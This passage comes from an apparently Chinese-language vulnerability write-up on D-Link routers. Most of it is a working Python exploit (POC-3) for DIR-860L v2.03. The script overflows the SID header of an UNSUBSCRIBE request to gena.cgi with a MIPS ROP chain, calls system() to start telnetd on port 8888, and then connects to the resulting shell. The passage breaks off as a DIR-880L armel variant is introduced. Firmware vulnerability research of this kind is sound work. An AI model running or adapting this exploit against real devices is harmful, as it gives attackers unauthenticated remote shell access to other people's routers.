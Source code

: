![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4DW6yOeibKicyPOIrcLO6HIjqWdmHib7MkLIGJjwib7xkzicZwHQvstBEd6A/640?wx_fmt=png "")  
  
   
  
**POC-3：**  
  
   
  
发现DIR-860L v2.03竟然还存在这个漏洞，于是也打了一下，这里注入的是HTTP_SID，又由于uClibc版本换了，所以gadget也有些变化：  
```
# python3
from pwn import *
from socket import *
from os import *
from time import *
context(os = 'linux', arch = 'mips')
 
libc_base = 0x2aabf000
 
s = socket(AF_INET, SOCK_STREAM)
 
cmd = b'telnetd -p 8888;'
payload = b'a'*437
payload += b'a'*4 # s0
payload += p32(libc_base + 0x398A4) # s1  move $a0, $s4 ... jalr $fp
payload += p32(libc_base + 0x56C20) # fp  system
payload += p32(libc_base + 0x3B2B0) # ra  addiu $s4, $sp, 0x28 ... jalr $s1
payload += b'a'*0x28 # padding
payload += cmd
 
msg = b"UNSUBSCRIBE /gena.cgi?service=0 HTTP/1.1\r\n"
msg += b"Host: localhost:49152\r\n"
msg += b"SID: " + payload + b"\r\n\r\n"
 
s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(msg)
 
sleep(1)
system("telnet 192.168.0.1 8888")
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4NdoCBSibR7BEHicc572DpCBxb9HepEk8xyuxp9lKaMhH9t5b8RgdWp2w/640?wx_fmt=png "")  
  
   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4OkupKfgyicYqjxYqjMlg2X2Ur7FTLnmWxgGVT347Q5U9ia0yM1pPWykA/640?wx_fmt=png "")  
  
   
  
**POC-4：**  
  
   
  
发现DIR-880L v1.0虽然架构换成了armel，但是这个漏洞仍然是存在的。  
  
   
  
不过，FAP对部分arm架构的固件的仿真运行有些问题，笔者也还不太会用EMUX，没成功启动固件，目前又没有真机的测试条件，就先贴一下POC（这里的gadget在本地的qemu测试过，是可以跑通的）：  
  